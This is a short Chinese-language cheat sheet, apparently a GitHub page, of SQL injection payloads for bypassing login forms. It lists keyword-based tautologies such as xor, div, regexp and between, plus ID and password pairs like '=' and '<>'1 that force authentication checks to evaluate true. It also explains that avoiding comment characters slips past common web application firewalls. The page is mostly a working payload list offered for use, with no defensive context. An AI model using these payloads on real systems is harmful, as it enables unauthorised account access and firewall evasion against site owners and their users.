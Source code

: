 这一次，SQL的关键字是方法。这种方法根据情况视作为真或假SQL注入。

```
' <1 and 1#
'xor 1#
'div 1#
'is not null#
admin' order by'
admin' group by'
'like 0#
'between 1 and 1#
'regexp 1#

```

在id或password区域中没有额外注释的很可能是真的假SQL注入。一般的web防火墙只过滤#, --, /**/,因此该方法在web防火墙中更有效。

```
ID  : '='
PASS: '='

ID  : '<>'1
PASS: '<>'1

ID  : '>1='
PASS: '>1='

ID  : 0'='0
PASS: 0'='0

ID  : '<1 and 1>'
PASS: '<1 and 1>'

ID  : '<>ifnull(1,2)='1
PASS: '<>ifnull(1,2)='1

ID  : '=round(0,1)='1
PASS: '=round(0,1)='1

ID  : '*0*'
PASS: '*0*'

ID  : '+'
PASS: '+'

ID  : '-'
PASS: '-'

ID  :'+1-1-'
PASS:'+1-1-'

```

使用文本的攻击比使用括号的攻击在绕过web防火墙时会更有效。
